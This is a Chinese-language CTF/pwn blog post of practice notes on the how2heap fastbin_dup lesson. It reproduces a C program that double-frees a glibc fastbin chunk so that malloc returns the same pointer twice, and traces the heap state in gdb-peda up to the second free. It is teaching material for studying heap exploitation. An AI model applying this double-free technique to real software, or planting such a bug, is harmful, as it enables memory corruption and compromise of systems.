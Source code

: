 ```yaml
---
title: how2heap-02 fastbin-dup实践笔记
time: 2017-08-05
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


> 本文是对shellphish的[how2heap](https://github.com/shellphish/how2heap)系列堆漏洞课程的实践笔记

# 示例源码

``` c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	printf("This file demonstrates a simple double-free attack with fastbins.\n");

	printf("Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);
  /* [1] */
	printf("1st malloc(8): %p\n", a);
	printf("2nd malloc(8): %p\n", b);
	printf("3rd malloc(8): %p\n", c);

	printf("Freeing the first one...\n");
	free(a);
  /* [2] */
	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	printf("So, instead, we'll free %p.\n", b);
	free(b);
  /* [3] */
	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);
  /* [4] */
	printf("Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
	printf("1st malloc(8): %p\n", malloc(8));
	printf("2nd malloc(8): %p\n", malloc(8));
	printf("3rd malloc(8): %p\n", malloc(8));
  /* [5] */
}
```

本节示例的漏洞程序可以从此处下载： [fastbin_dup](/files/how2heap/fastbin_dup)

# 漏洞分析

程序首先向操作系统申请了3块大小为`8bytes`的内存，而后依次释放`a` `b` `a`，再重新申请了3块大小依旧为`8bytes`的内存。我们通过巧妙地欺骗glibc的`free`操作从而可以泄露出一块已经被分配的内存指针

我们接下来用gdb来进行调试来看看具体的内存情况，首先我们执行到上面源码的`[1]`处，程序申请了3块内存，这时来看看堆的情况

``` bash
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x602000
chunk      0x602000         0x20            (inuse)
chunk      0x602020         0x20            (inuse)
chunk      0x602040         0x20            (inuse)
chunk      0x602060         0x20fa0         (top)
sbrk_end   0x602000
```

可以看见，操作系统给我们分配了3个chunk，继续向下到`[2]`处，这时将`a`chunk释放

``` bash
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x602000
chunk      0x602000         0x20            (inuse)
chunk      0x602020         0x20            (inuse)
chunk      0x602040         0x20            (inuse)
chunk      0x602060         0x20fa0         (top)
sbrk_end   0x602000
```

这时敲入`heapls`命令查看堆情况，但是却发现第一个chunk的状态依旧是`inuse`？为什么明明被释放了，状态却依旧没变呢？因为这是因为chunk的大小为`8bytes`，chunk`a`虽然被释放，但是被链入了`fastbins`里，而`fastbins`为了快速释放分配，并不会修改每个`chunk`的`PREV_INUSE (P)`，简称`P位`，因此我们看到的就是chunk`a`依旧是`inuse`的状态

我们可以敲入`freebins`和`fastbins`进行验证

``` bash
gdb-peda$ freebins
fast bin 0 @ 0x602000
	free chunk @ 0x602000 - size 0x20
gdb-peda$ fastbins
fastbins
[ fb 0 ] 0x7ffff7dd3768  -> [ 0x602000 ] (32)
[ fb 1 ] 0x7ffff7dd3770  -> [ 0x0 ]
[ fb 2 ] 0x7ffff7dd3778  -> [ 0x0 ]
[ fb 3 ] 0x7ffff7dd3780  -> [ 0x0 ]
[ fb 4 ] 0x7ffff7dd3788  -> [ 0x0 ]
[ fb 5 ] 0x7ffff7dd3790  -> [ 0x0 ]
[ fb 6 ] 0x7ffff7dd3798  -> [ 0x0 ]
[ fb 7 ] 0x7ffff7dd37a0  -> [ 0x0 ]
[ fb 8 ] 0x7ffff7dd37a8  -> [ 0x0 ]
[ fb 9 ] 0x7ffff7dd37b0  -> [ 0x0 ]
```

那么我们继续运行，到`[3]`的位置，这是将chunk`b`释放掉了，继续查看堆情况

``` bash
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x602000
chunk      0x602000         0x20            (inuse)
chunk      0x602020         0x20            (inuse)
chunk      0x602040         0x20            (inuse)
chunk      0x602060         0x20fa0         (top)
sbrk_end   0x602000
gdb-peda$ fastbins
fastbins
[ fb 0 ] 0x7ffff7dd3768  -> [ 0x602020 ] (32)
                            [ 0x602000 ] (32)
[ fb 1 ] 0x7ffff7dd3770  -> [ 0x0 ]
[ fb 2 ] 0x7ffff7dd3778  -> [ 0x0 ]
[ fb 3 ] 0x7ffff7dd3780  -> [ 0x0 ]
[ fb 4 ] 0x7ffff7dd3788  -> [ 0x0 ]
[ fb 5 ] 0x7ffff7dd3790  -> [ 0x0 ]
[ fb 6 ] 0x7ffff7dd3798  -> [ 0x0 ]
[ fb 7 ] 0x7ffff7dd37a0  -> [ 0x0 ]
[ fb 8 ] 0x7ffff7dd37a8  -> [ 0x0 ] 
[ fb 9 ] 0x7ffff7dd37b0  -> [ 0x0 ]
gdb-peda$ freebins
fast bin 0 @ 0x602020
	free chunk @ 0x602020 - size 0x20
	free chunk @ 0x602000 - size 0x20
```

我们可以发现，`free(b)`之后，chunk`b`被链入了`fastbins`中，但是chunk`b`被链进了`a`的前面，我们继续向下，到`[4]`处，再次将`a`释放
